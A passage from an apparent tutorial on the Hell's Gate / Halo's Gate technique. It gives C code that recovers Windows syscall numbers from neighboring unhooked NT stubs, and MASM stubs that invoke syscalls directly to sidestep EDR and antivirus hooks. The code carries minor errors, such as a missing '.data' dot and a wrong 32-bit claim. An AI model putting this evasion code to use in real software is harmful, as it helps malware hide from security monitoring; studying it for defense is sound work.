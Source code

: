 ``` c
				// check neighboring syscall up
				if (*((PBYTE)pFuncAddress + idx * UP) == 0x4C
					&& *((PBYTE)pFuncAddress + 1 + idx * UP) == 0x8B
					&& *((PBYTE)pFuncAddress + 2 + idx * UP) == 0xD1
					&& *((PBYTE)pFuncAddress + 3 + idx * UP) == 0xB8
					&& *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
					&& *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {

					BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
					BYTE low  = *((PBYTE)pFuncAddress + 4 + idx * UP);
					pNtSys->dwSSn = (high << 8) | low + idx;
					break; // break for-loop [idx]
				}
			}
		}
	(...)
}
```

This method also have its drawbacks: if all NT functions are hooked or modified this approach will also fail. As commented before, this is unlikely to happen; EDRs and AVs do not hook all the functions for performance reasons. 

Now that we know how to gather the SSN needed to call functions, lets craft our own assembly code. 
## Hell's Gate: Calling NT Functions
Remember from the previous sections how an assembly NT function call looks like. There the SSN number is "harcoded" into the assembly function, something that we cannot do because we do not know which function we want to call; we need to make it somehow modular. Here is the approach: 

``` c
data
	wSystemCall DWORD 000h              ; this is a global variable used to keep the SSN of a syscall

.code 
	SetSSn PROC
		mov wSystemCall, 000h		
		mov wSystemCall, ecx            ; updating the 'wSystemCall' variable with input argument (ecx register's value)
		ret
	SetSSn ENDP

	RunSyscall PROC
		mov r10, rcx
		mov eax, wSystemCall            ; `wSystemCall` is the SSN of the syscall to call
		syscall
		ret
	RunSyscall ENDP
end
```

This assembly code is used to execute system calls (syscalls) on a 32-bit or 64-bit Windows system, using two functions: `SetSSn` and `RunSyscall`.

